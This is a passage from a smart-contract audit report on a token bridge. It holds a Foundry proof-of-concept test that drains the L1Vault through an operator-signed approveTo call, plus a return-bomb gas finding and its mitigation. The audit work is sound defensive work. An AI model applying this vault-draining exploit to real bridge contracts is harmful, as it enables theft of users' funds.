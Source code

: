 To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.

## Medium

### [M-1] Withdrawals are prone to unbounded gas consumption due to return bombs

During withdrawals, the L1 part of the bridge executes a low-level call to an arbitrary target passing all available gas. While this would work fine for regular targets, it may not for adversarial ones.

In particular, a malicious target may drop a [return bomb](https://github.com/nomad-xyz/ExcessivelySafeCall) to the caller. This would be done by returning an large amount of returndata in the call, which Solidity would copy to memory, thus increasing gas costs due to the expensive memory operations. Callers unaware of this risk may not set the transaction's gas limit sensibly, and therefore be tricked to spent more ETH than necessary to execute the call.

If the external call's returndata is not to be used, then consider modifying the call to avoid copying any of the data. This can be done in a custom implementation, or reusing external libraries such as [this one](https://github.com/nomad-xyz/ExcessivelySafeCall).

## Low

### [L-1] Lack of event emission during withdrawals
